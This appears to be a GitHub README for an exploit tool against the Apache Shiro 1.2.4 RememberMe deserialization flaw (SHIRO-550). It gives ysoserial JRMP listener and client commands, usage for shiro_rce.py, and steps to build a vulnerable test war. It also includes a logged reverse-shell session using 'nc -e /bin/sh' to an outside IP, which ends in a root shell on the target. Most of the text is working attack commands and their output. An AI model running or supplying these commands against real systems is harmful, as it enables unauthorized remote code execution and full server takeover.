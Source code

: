 # Shiro RememberMe 1.2.4 反序列化漏洞（SHIRO-550）

![](./SHIRO-550.gif)

## commons-collections-3.2.1.jar

`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient "10.10.20.166:12345" |python exp.py`

`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections5 'nc -e /bin/sh 192.168.5.86 8989'`

`nc -nlvp 8989`

![](./commons-collections-3.2.1.jpg)

## python usage:

```
python3 shiro_rce.py


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞




[+] Usage: python3 shiro_rce.py http://10.10.20.166:8080/shiro/ command

```

##  get for samples-web-1.2.4.war

```
git clone https://github.com/apache/shiro.git
cd shiro
git checkout shiro-root-1.2.4
mvn install
```
#### mvn version

```
mvn -v
Apache Maven 3.6.2 (40f52333136460af0dc0d7232c0dc0bcf0d9e117; 2019-08-27T11:06:16-04:00)
Maven home: /opt/apache-maven-3.6.2
Java version: 1.8.0_60, vendor: Oracle Corporation, runtime: /opt/jdk1.8.0_60/jre
Default locale: en_US, platform encoding: UTF-8
OS name: "linux", version: "4.19.0-kali1-amd64", arch: "amd64", family: "unix"

```

#### cat ~/.m2/toolchains.xml 
```
<?xml version="1.0" encoding="UTF8"?>
<toolchains>
    <toolchain>
      <type>jdk</type>
      <provides>
        <version>1.6</version>
        <vendor>sun</vendor>
      </provides>
      <configuration>
           <jdkHome>/opt/jdk/jdk1.6.0_45</jdkHome>
      </configuration>
    </toolchain> 
</toolchains>

```


## Reverse shell

```
python3 shiro_rce.py http://10.10.20.166:8080/samples-web-1.2.4/ "nc -e /bin/sh 192.168.5.86 9999"


   _____ _    _ _____ _____   ____         _____ _____  ___
  / ____| |  | |_   _|  __ \ / __ \       | ____| ____|/ _ \
 | (___ | |__| | | | | |__) | |  | |______| |__ | |__ | | | |
  \___ \|  __  | | | |  _  /| |  | |______|___ \|___ \| | | |
  ____) | |  | |_| |_| | \ \| |__| |       ___) |___) | |_| |
 |_____/|_|  |_|_____|_|  \_\____/       |____/|____/ \___/

            Shiro RememberMe 1.2.4 反序列化漏洞



2019-10-25 13:43:33

[+] Send POC Success
[+] Exit Shiro RCE Vuln
```

```
C:\Users\CTF>nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.5.86] from (UNKNOWN) [10.10.20.166] 38656
id
uid=0(root) gid=0(root) groups=0(root)
cd /tmp
ls
123123123123
```

## 参考链接：

http://blog.orange.tw/2018/03/pwn-ctf-platform-with-java-jrmp-gadget.html

https://bling.kapsi.fi/blog/jvm-deserialization-broken-classldr.html

https://blog.zsxsoft.com/post/35

https://paper.seebug.org/shiro-rememberme-1-2-4/
